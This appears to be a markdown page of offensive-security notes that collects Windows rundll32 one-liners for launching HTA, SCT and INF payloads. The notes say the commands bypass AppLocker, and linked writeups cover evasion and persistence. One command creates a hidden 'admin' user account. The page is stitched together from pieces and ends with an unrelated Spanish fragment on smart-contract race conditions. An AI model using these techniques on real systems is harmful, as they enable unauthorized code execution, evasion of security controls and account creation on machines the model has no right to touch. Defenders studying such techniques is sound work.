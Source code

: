 # Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
# Seguridad de contratos inteligentes basados en Blockchain II – Vulnerabilidades y riesgos
https://www.securityartwork.es/2018/03/20/seguridad-de-contratos-inteligentes-basados-en-blockchain-ii-vulnerabilidades-y-riesgos/

- Condiciones de carrera: cuando la salida o estado de un proceso es dependiente de una secuencia de eventos que se ejecutan en orden arbitrario y van a trabajar sobre un mismo recurso compartido, se puede producir un bug cuando dichos eventos no «llegan» (se ejecutan) en el orden que el programador esperaba
